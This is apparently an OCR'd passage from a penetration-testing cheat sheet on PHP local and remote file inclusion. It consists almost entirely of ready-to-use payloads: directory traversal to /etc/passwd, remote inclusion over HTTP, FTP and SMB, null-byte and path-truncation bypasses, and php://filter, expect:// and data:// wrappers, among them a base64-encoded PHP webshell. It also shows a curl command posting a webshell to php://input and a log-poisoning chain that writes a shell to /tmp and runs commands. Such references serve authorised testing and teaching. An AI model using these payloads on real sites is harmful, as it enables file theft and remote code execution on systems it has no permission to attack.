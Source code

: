  - `https://pentest-experts.com/index.php?page=../../../../../etc/passwd` (local)
 - `https://pentest-experts.com/index.php?page=https://pentest-experts.com/sypps.txt` (remote)
 - `https://pentest-experts.com/index.php?page=ftp://pentest-experts.com/sypps.txt`  
   (remote via FTP in case WAF block `https://`)
 - `https://pentest-experts.com/index.php?page=\\192.168.1.2\sypps.txt`  
   (remote via SMB in case WAF block `https://` - Windows webserver only but works there even if `allow_url_include` is deactivated)

Try to include `https://127.0.0.1/somefile.html` frist do confirm RFI without traversing a firewall...

**Prepended scrings:**

In case a string get prepended (e.g. `include("lang_".$GET["lang"]);`) to the user controlled input of the loaded file, try to add `/` before the directory traversal to make the prepended string look like a directory - e.g.:

`https://pentest-experts.com/index.php?page=/../../../../../etc/passwd`

**Second order attacks:**

Test also for LFI in user supplied data, which is later read from the database - e.g.:

`MISSING GOOD EXAMPLE !!!`

**Prepended stings:**

Many web-applications prepend string the the file inclusion path (e.g. `include($GET["lang"].".php");`) - to bypass this we have in old versions of PHP (before 5.5) this options:

 - Adding 2048 x `./` to the end of the in the path to exceed the 4096 character limit (`./` is removed by the OS when accessing a file)
 - Adding a `%00` byte after the injection (PHP uses `NUL` byte terminated strings)

#### PHP filters / wrappers

 - `php://filter/read=convert.base64-encode/resource=config.php`
 - `php://filter/read=convert.base64-encode/resource=/etc/passwd`
 - `php://filter/read=convert.base64-encode/resource=../../../../../etc/passwd`
 - `expect://whoami`  
   Expect wrapper need to be installed and activated for this attack to work
 - `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOyA%2FPg%3D%3D&c=whoami`  
   (URL- and Base64 encoded or use in a GET parameter)  
   `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOyA/Pg==`  
   (Only Base64 encoded for use in a POST parameter)  
   PHP webshell usage: run commands with GET parameter: `&c=whoami`
 - `curl -s -X POST --data '<?php system("whoami"); ?>' "https://pentest-experts.com/index.php?vuln_param=php://input"`  
   Input wrapper, which receive the webshell as POST data

#### LFI to RCE

**Log poisioning**

 1. Browse some URL with BrupSuite or ZAP and change the `User-Agent` field in the header to:  
`<?php echo system($_GET["c"]); ?>`
 2. Use the **access.log** to write a new shell to `/tmp`:  
`https://pentest-experts.com/read.php?file=../../../../../var/log/apache2/access.log&c=echo+'<?php+echo+system($_GET["c"]);+?>'>/tmp/s.php`
 3. Utilize the new shell:  
`https://pentest-experts.com/read.php?file=../../../../../tmp/s.php&c=ls+-l+/var/www/html/`
